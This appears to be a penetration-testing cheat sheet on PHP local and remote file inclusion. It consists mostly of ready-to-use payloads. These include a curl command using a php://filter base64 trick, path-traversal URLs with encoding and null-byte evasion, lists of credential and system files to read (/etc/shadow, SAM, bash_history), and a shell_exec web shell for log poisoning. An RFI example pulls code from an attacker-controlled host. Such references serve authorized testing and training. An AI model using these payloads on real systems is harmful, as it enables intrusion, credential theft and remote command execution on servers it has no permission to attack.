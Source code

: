 # File Inclusion Vulnerabilities

- **fimap**

There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI): (<https://github.com/kurobeats/fimap>)

- **Gaining a shell from phpinfo()  **fimap + phpinfo() Exploit

  If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

<span style="font-size: 13.3333px;">
</span>

- **For Local File Inclusions look for the include() function in PHP code.**

```ShellSession
include("lang/".$\_COOKIE\['lang'\]);

include($\_GET\['page'\].".php");
```

- **LFI - Encode and Decode a file using base64**

```ShellSession
curl -s \

"http://$ip/?page=<php://filter/convert.base64-encode/resource=index>" \

| grep -e '\\[^\\ \\]\\{40,\\}' | base64 -d
```

- **LFI - Download file with base 64 encoding**

```ShellSession
http://$ip/index.php?page=<php://filter/convert.base64-encode/resource=admin.php>
```

- **LFI Linux Files:**

```ShellSession
/etc/issue

/proc/version

/etc/profile

/etc/passwd

/etc/passwd

/etc/shadow

/root/.bash_history

/var/log/dmessage

/var/mail/root

/var/spool/cron/crontabs/root
```

- **LFI Windows Files:**

```ShellSession
%SYSTEMROOT%\\repair\\system

%SYSTEMROOT%\\repair\\SAM

%SYSTEMROOT%\\repair\\SAM

%WINDIR%\\win.ini

%SYSTEMDRIVE%\\boot.ini

%WINDIR%\\Panther\\sysprep.inf

%WINDIR%\\system32\\config\\AppEvent.Evt
```

- **LFI OSX Files:**

```ShellSession
/etc/fstab

/etc/master.passwd

/etc/resolv.conf

/etc/sudoers

/etc/sysctl.conf
```

- **LFI - Download passwords file**

```ShellSession
http://$ip/index.php?page=/etc/passwd

http://$ip/index.php?file=../../../../etc/passwd
```

- **LFI - Download passwords file with filter evasion**

```ShellSession
http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

- **Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte**

```ShellSession
GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

- **Contaminating Log Files**

```ShellSession
<?php echo shell\_exec($\_GET\['cmd'\]);?>
```

- For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files

- /etc/php5/cgi/php.ini\* - "allow\_url\_fopen" and "allow\_url\_include" both set to "on"

`include($\_REQUEST\["file"\].".php");`

------------------------------------------------------------------------

**Remote File Inclusion**

```ShellSession
http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt  

<?php echo shell_exec("ipconfig");?>
```
